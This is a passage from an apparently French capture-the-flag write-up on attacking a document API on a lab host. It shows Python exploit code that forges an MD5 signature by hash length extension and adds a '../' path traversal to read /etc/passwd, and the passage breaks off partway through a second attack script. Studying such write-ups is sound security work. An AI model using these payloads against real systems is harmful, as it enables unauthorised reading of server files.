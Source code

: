 ```python
import requests
import hashlib
import urllib

hdrs = {
    "Cookie": "vip=1",
    "X-Auth": "b32GjABvSf1Eiqry",
    "Content-Type": "application/x-www-form-urlencoded"
    }

contenttype = "application%2Fpdf"
filepath = "./documents/Top_4_Mitigations.pdf"
filepath += "%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00"
filepath += "%00%00%00%00%00%00%00%00%00%00%98%02%00%00%00%00%00%00/../../../../../../../etc/passwd"

filepath = filepath.replace('/', '%2F')

api_sig = "a7311b7d7a12b28ff48e9414141ebb07"

payload = "contenttype={0}&filepath={1}&api_sig={2}".format(contenttype, filepath, api_sig)
sess = requests.session()
r = sess.post("http://192.168.1.64/api/documents",
        headers=hdrs,
        data=payload)

print r.content
```

Avec une taille de secret partagée inférieure à 16 on obtenait *{"error":"API signature failed."}* alors qu'avec une longueur de 16 on reçoit *{"error":"File path does not exist"}*.  

Pour ce qui est du second problème il n'est malheureusement pas possible de remonter l'arborescence en rajoutant un chemin à la fin du *filepath* :-(. Normalement Linux et PHP permettent de rentrer dans des dossiers qui n'existent pas pour les remonter ensuite... Sauf que le script PHP doit faire une vérification à l'aide de la fonction *file\_exists()* qui ne semble pas possible de berner.  

De la même façon placer un second argument *filepath* avec une valeur différente ne fonctionne pas mieux. La signature ainsi générée n'est plus valide.  

La solution à ce problème est liée à la façon dont l'API retire les caractères *=* et *&* de la querystring pour obtenir les données à hasher. C'est à dire que la chaîne *response=42* donnera la même signature qu'avec *resp=onse42*.
Ainsi on peut faire en sorte que le script PHP du serveur calcule toujours la même signature mais au moment de lire la variable dans *$\_POST* il ne l'aura pas... à moins qu'on lui en donne une supplémentaire avec une signature valide.  

Pour automatiser l'attaque j'ai eu recours à une librairie MD5 100% Python [trouvée sur pastebin](http://pastebin.com/tvFbSQSG) que j'ai renommé *puremd5* dans le script suivant que j'ai écrit :  

```python
import puremd5
import struct
import hashlib
import urllib
import requests
import sys

hdrs = {
    "Cookie": "vip=1",
    "X-Auth": "b32GjABvSf1Eiqry",
    "Content-Type": "application/x-www-form-urlencoded"
    }

data = "contenttypeapplication/pdffilepath./documents/Top_4_Mitigations.pdf"
append = "filepath" + sys.argv[1]
```